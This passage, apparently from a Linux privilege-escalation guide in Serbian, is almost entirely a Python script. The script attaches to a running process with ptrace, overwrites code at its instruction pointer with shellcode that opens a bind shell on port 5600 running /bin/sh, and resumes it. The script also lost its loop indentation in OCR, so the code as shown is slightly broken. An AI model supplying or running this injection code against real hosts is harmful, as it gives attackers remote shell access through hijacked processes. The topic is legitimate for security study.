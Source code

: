 ```python

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
# Convert the byte to little endian.
shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
shellcode_byte=int(shellcode_byte_little_endian,16)

# Inject the byte.
libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

**Primer sa binarnim fajlom (gdb)**

`gdb` sa mogućnošću `ptrace`:

